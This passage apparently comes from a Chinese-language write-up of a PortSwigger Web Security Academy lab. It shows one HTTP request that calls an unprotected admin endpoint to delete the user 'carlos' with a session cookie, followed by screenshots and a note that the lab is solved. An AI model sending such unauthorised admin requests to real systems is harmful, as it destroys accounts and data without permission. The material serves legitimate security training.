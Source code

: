 [![](assets/1705287960-ab25746abf5861821905e8d228ecc12d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104700-b1dfa110-b02b-1.png)

直接调用接口删除用户

```plain
GET /admin/delete?username=carlos HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```

[![](assets/1705287960-db8a1453ade0bea2b586a65a5090842e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104717-bbe4377a-b02b-1.png)

随后完成解题  
[![](assets/1705287960-491b29f0fa9ea0a69956d2ecd0d169c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104727-c1c68300-b02b-1.png)
